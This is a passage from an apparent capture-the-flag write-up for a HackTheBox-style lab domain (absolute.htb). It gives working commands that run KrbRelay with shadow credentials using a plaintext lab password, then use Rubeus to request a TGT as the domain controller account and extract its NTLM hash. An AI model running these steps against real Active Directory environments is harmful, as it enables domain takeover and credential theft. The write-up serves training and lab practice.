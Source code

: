 {% code overflow="wrap" %}
```
.\runasc.exe m.lovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\Users\winrm_user\krbrelay.exe -spn ldap/dc.absolute.htb -clsid {752073A1-23F2-4396-85F0-8FDB879ED0ED} -shadowcred"
```
{% endcode %}

This would generate an output like this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

What this command does is use a CLSID in order to first add a new msDS-KeyCredentialLink, which would generate another certificate for us similar to `pywhisker`. Afterwards, we can use this certificate to request a TGT as DC$ and get the NTLM hash.

<pre data-overflow="wrap"><code><strong>.\rubeus.exe asktgt /user:DC$ /certificate:&#x3C;CERT> /password:"&#x3C;PASSWORD>" /getcredentials /show
</strong></code></pre>

This would generate the NTLM hash for us:

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>
